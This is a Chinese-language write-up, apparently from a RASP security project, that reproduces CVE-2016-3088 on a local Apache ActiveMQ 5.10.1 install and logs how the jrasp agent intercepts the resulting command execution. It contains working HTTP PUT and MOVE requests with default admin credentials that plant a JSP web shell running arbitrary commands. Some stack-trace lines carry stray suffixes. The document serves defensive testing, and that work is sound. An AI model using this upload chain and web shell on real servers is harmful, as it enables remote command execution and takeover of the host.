








# CVE-2016-3088

## 漏洞简介

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务、集群、Spring Framework等。 ActiveMQ默认对外开启61616端口，默认为ActiveMQ消息队列端口。8161是Web管理页面端口
ActiveMQ 中的 FileServer 服务允许用户通过 HTTP PUT 方法上传文件到指定目录

## 影响版本

ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。


## 环境搭建

### ActiveMQ 下载

[下载ActiveMQ 5.10.1](http://archive.apache.org/dist/activemq/) 


### 启动

进入`apache-activemq-5.10.1/bin`执行 `./activemq start`


## 漏洞复现

### 查看 activeMQ的安装路径
有趣的是，我们伪造一个特殊的上传路径，可以爆出绝对路径



fileserver 的绝对路径是
`/Users/xxx/soft/apache-activemq-5.10.1/webapps/fileserver/`


### 向fileserver路径下上传一个jsp



请求如下
```
PUT /fileserver/shell.jsp HTTP/1.1
Host: localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 363

<%@ page import="java.io.*"%>
<% 
    out.print("hello</br>");
    String strcmd = request.getParameter("cmd");
    String line=null;

    Process p = Runtime.getRuntime().exec(strcmd);
    BufferedReader br=new BufferedReader(new InputStreamReader(p.getInputStream()));
    while((line =br.readLine())!=null){
        out.print(line+"</br>");
    }
%>
```

### jsp文件移动到 admin目录下



```
MOVE /fileserver/shell.jsp HTTP/1.1
Destination:file:///Users/xxxx/soft/apache-activemq-5.10.1/webapps/admin/shell.jsp
Host: localhost:8161
Authorization: Basic YWRtaW46YWRtaW4=
Content-Length: 19


Content-Length: 1
```
测试时请修改上面的`Destination`参数


### 访问请求触发漏洞



http://localhost:8161/admin/shell.jsp?cmd=ls

## RASP防护

安装jrasp之后,再次触发请求

RASP 拦截到的调用栈
```
{
    "cmdArray":[
        "ls"
    ],
    "isBlocked":false,
    "stackTrace":[
	"java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
	"java.lang.ProcessImpl.start(ProcessImpl.java:134)",
	"java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
	"java.lang.Runtime.exec(Runtime.java:621)",
	"java.lang.Runtime.exec(Runtime.java:451)",
	"java.lang.Runtime.exec(Runtime.java:348)",
	"org.apache.jsp.shell_jsp._jspService(org.apache.jsp.shell_jsp:62)",
	"org.apache.jasper.runtime.HttpJspBase.service(HttpJspBase.java:109)",
	"javax.servlet.http.HttpServlet.service(HttpServlet.java:806)",
	"org.apache.jasper.servlet.JspServletWrapper.service(JspServletWrapper.java:389)",
	"org.apache.jasper.servlet.JspServlet.serviceJspFile(JspServlet.java:486)",
	"org.apache.jasper.servlet.JspServlet.service(JspServlet.java:380)",
	"javax.servlet.http.HttpServlet.service(HttpServlet.java:806)",
	"org.eclipse.jetty.servlet.ServletHolder.handle(ServletHolder.java:652)",
	"org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1320)",
	"org.springframework.web.filter.RequestContextFilter.doFilterInternal(RequestContextFilter.java:99)",
	"org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
	"org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
	"org.apache.activemq.web.SessionFilter.doFilter(SessionFilter.java:45)",
	"org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
	"org.apache.activemq.web.filter.ApplicationContextFilter.doFilter(ApplicationContextFilter.java:102)",
	"org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
	"org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:443)",
	"org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:137)",
	"org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:521)",
	"org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:227)",
	"org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1044)",
	"org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:372)",
	"org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:189)",
	"org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:978)",
	"org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:135)",
	"org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:154)",
	"org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:521)",
	"org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:154)",
	"org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:116)",
	"org.eclipse.jetty.server.Server.handle(Server.java:367)", 
	"org.eclipse.jetty.server.AbstractHttpConnection.handleRequest(AbstractHttpConnection.java:486)",
	"org.eclipse.jetty.server.AbstractHttpConnection.headerComplete(AbstractHttpConnection.java:926)",
	"org.eclipse.jetty.server.AbstractHttpConnection$RequestHandler.headerComplete(AbstractHttpConnection.java:988)",
	"org.eclipse.jetty.http.HttpParser.parseNext(HttpParser.java:640)",
	"org.eclipse.jetty.http.HttpParser.parseAvailable(HttpParser.java:235)",
	"org.eclipse.jetty.server.AsyncHttpConnection.handle(AsyncHttpConnection.java:82)",
	"org.eclipse.jetty.io.nio.SelectChannelEndPoint.handle(SelectChannelEndPoint.java:628)",
	"org.eclipse.jetty.io.nio.SelectChannelEndPoint$1.run(SelectChannelEndPoint.java:52)",
	"org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:608)",
	"org.eclipse.jetty.util.thread.QueuedThreadPool$3.run(QueuedThreadPool.java:543)",
	"java.lang.Thread.run(Thread.java:748)",
    ],
    "command":"ls",
    "commandEnv":[

    ]
}
```

耗时：
```
2021-10-18 16:13:34 INFO  method: UNIXProcess.<init>.before, 耗时: 0.419365 ms
```

## 存在问题

1.命令执行之中有文件重新命名的信息，需要确认；（TODO）

2.http 参数丢失： HttpJspBase 继承了 javax.servlet.http.HttpServlet  （DONE）

org.eclipse.jetty.server.Server.handle() 方法参数在不同版本中区别

jetty7 




jetty9 



ActiveMQ 5.10.1 使用了 jetty-all-server-7.6.9.v20130131.jar hook 点失效

## 问题解决

对于jetty-all-server-7.6.9.v20130131.jar 增加兼容适配的插件版本

插件内容



插件pom依赖



截获调用栈和参数

```json
{
    "protocol":"HTTP/1.1",
    "method":"GET",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "isBlocked":false,
    "requestURI":"/admin/shell.jsp",
    "stackTrace":[
        "java.lang.UNIXProcess.<init>(UNIXProcess.java:245)",
        "java.lang.ProcessImpl.start(ProcessImpl.java:134)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "org.apache.jsp.shell_jsp._jspService(org.apache.jsp.shell_jsp:62)",
        "org.apache.jasper.runtime.HttpJspBase.service.md(HttpJspBase.java:109)",
        "javax.servlet.http.HttpServlet.service.md(HttpServlet.java:806)",
        "org.apache.jasper.servlet.JspServletWrapper.service.md(JspServletWrapper.java:389)",
        "org.apache.jasper.servlet.JspServlet.serviceJspFile(JspServlet.java:486)",
        "org.apache.jasper.servlet.JspServlet.service.md(JspServlet.java:380)",
        "javax.servlet.http.HttpServlet.service.md(HttpServlet.java:806)",
        "org.eclipse.jetty.servlet.ServletHolder.handle(ServletHolder.java:652)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1320)",
        "org.springframework.web.filter.RequestContextFilter.doFilterInternal(RequestContextFilter.java:99)",
        "org.springframework.web.filter.OncePerRequestFilter.doFilter(OncePerRequestFilter.java:107)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
        "org.apache.activemq.web.SessionFilter.doFilter(SessionFilter.java:45)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
        "org.apache.activemq.web.filter.ApplicationContextFilter.doFilter(ApplicationContextFilter.java:102)",
        "org.eclipse.jetty.servlet.ServletHandler$CachedChain.doFilter(ServletHandler.java:1291)",
        "org.eclipse.jetty.servlet.ServletHandler.doHandle(ServletHandler.java:443)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:137)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:521)",
        "org.eclipse.jetty.server.session.SessionHandler.doHandle(SessionHandler.java:227)",
        "org.eclipse.jetty.server.handler.ContextHandler.doHandle(ContextHandler.java:1044)",
        "org.eclipse.jetty.servlet.ServletHandler.doScope(ServletHandler.java:372)",
        "org.eclipse.jetty.server.session.SessionHandler.doScope(SessionHandler.java:189)",
        "org.eclipse.jetty.server.handler.ContextHandler.doScope(ContextHandler.java:978)",
        "org.eclipse.jetty.server.handler.ScopedHandler.handle(ScopedHandler.java:135)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:154)",
        "org.eclipse.jetty.security.SecurityHandler.handle(SecurityHandler.java:521)",
        "org.eclipse.jetty.server.handler.HandlerCollection.handle(HandlerCollection.java:154)",
        "org.eclipse.jetty.server.handler.HandlerWrapper.handle(HandlerWrapper.java:116)",
        "org.eclipse.jetty.server.Server.handle(Server.java:367)",
        "org.eclipse.jetty.server.AbstractHttpConnection.handleRequest(AbstractHttpConnection.java:486)",
        "org.eclipse.jetty.server.AbstractHttpConnection.headerComplete(AbstractHttpConnection.java:926)",
        "org.eclipse.jetty.server.AbstractHttpConnection$RequestHandler.headerComplete(AbstractHttpConnection.java:988)",
        "org.eclipse.jetty.http.HttpParser.parseNext(HttpParser.java:640)",
        "org.eclipse.jetty.http.HttpParser.parseAvailable(HttpParser.java:235)",
        "org.eclipse.jetty.server.AsyncHttpConnection.handle(AsyncHttpConnection.java:82)",
        "org.eclipse.jetty.io.nio.SelectChannelEndPoint.handle(SelectChannelEndPoint.java:628)",
        "org.eclipse.jetty.io.nio.SelectChannelEndPoint$1.run(SelectChannelEndPoint.java:52)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool.runJob(QueuedThreadPool.java:608)",
        "org.eclipse.jetty.util.thread.QueuedThreadPool$3-tools.run(QueuedThreadPool.java:543)",
        "java.lang.Thread.run(Thread.java:748)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameterMap":{
        "cmd":[
            "ls"
        ]
    },
    "cookies":[
        {
            "maxAge":-1,
            "name":"JSESSIONID",
            "secure":false,
            "value":"1jdeirsc86r781mrna8anmq7jq",
            "version":0
        },
        {
            "maxAge":-1,
            "name":"context-profile-id",
            "secure":false,
            "value":"87e81720-9566-4055-b63b-ed08dbf5f3fb",
            "version":0
        },
        {
            "maxAge":-1,
            "name":"screenResolution",
            "secure":false,
            "value":"1792x1120",
            "version":0
        },
        {
            "maxAge":-1,
            "name":"OFBiz.Visitor",
            "secure":false,
            "value":"10000",
            "version":0
        }
    ],
    "command":"ls",
    "commandEnv":[

    ],
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```

